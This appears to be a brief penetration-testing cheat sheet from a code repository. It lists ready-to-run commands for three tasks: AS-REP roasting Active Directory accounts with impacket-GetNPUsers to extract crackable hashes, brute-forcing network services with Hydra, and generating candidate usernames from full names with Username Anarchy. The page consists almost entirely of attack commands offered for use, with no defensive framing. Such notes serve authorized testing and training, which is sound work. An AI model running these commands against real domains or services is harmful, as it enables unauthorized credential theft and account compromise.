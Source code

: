 # ASREPRoasting

Extract hashes from user accounts that do not require pre-authentication
```
unames.txt can be generated with a tool like Username Anarchy, etc.

while read u; do impacket-GetNPUsers fqdn/"$u" -request -no-pass -dc-ip ipaddress >> hashes.txt; done < unames.txt
```

# Hydra

Brute Force Service
`hydra -l username -P passwordlist ipaddress servicename`

File user:pass Format
`hydra -C userpass.txt ipaddress servicename`

# Username Anarchy

Generate Usernames From Full Names
`./username-anarchy --input-file ../fullnames.txt --select-format first,flast,first.last,firstl > ../unames.txt`
